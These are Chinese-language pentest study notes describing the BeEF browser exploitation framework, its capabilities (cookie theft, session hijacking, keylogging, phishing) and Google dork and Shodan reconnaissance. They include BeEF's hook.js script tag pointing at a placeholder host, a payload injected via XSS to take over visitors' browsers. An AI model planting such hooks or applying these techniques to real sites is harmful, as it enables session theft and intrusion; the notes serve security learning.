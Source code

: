 默认登陆页`http://xxx.xxx.xxx.xxx:3000/ui/panel`

默认 JS 脚本 `<script src="xxx.xxx.xxx.xxx/hook.js"></script>`

Browser Exploitation Framework(BeEF)：时目前最强大的浏览器开源渗透测试框架，通过 XSS 漏洞配合 JS 脚本和 Metasploit 进行渗透。

信息收集：

1. 网络发现
2. 主机信息
3. Cookie 获取
4. 会话劫持
5. 键盘记录
6. 插件信息

持久化控制：

1. 确认弹框
2. 小窗口
3. 中间人

社会工程：

1. 点击劫持
2. 弹窗警告
3. 虚假页面
4. 钓鱼页面

渗透测试：

1. 内网渗透
2. Metasploit
3. CSRF 攻击
4. DDOS 攻击

## 信息收集

1. WEB 信息收集（探测），主要时掌握 WEB 服务的方方面面，实现渗透入侵前的准备工作
2. 内容包括：操作系统版本、服务器类型、数据库类型、WEB 容器、WEB 语言、域名信息、网站目录等
3. 涉及搜索引擎、网站扫描、域名遍历、指纹识别等

### Google Hack

1. `site:`：主要用于收集子域名和跟此域名相关的信息
2. `filetype:`：搜索指定文件类型
3. `inurl:`：搜索 URL 中包含指定字符的网页，一般用来寻找可能存在的注入点
4. `intitle:`：搜索标题中包含指定字符的网页，一般用来寻找登陆点或管理后台
5. `intext:`：搜索网站正文中包含指定字符的网页，例如搜索特定 CMS 搭建的网站
6. `-keyword`：强制结果中不出现此关键字
7. `*keyword`：模糊搜索，强制结果中包含此关键字
8. `"keyword"`：强制结果中出现此关键字

### Shodan Hack

`https://www.shodan.io` 是由 Web 工程师 John Matherly 编写，被称为“最可怕的搜索引擎”，可以扫描一切网络设备，包括 Web 服务器、防火墙、路由器、交换机、摄像头、打印机等
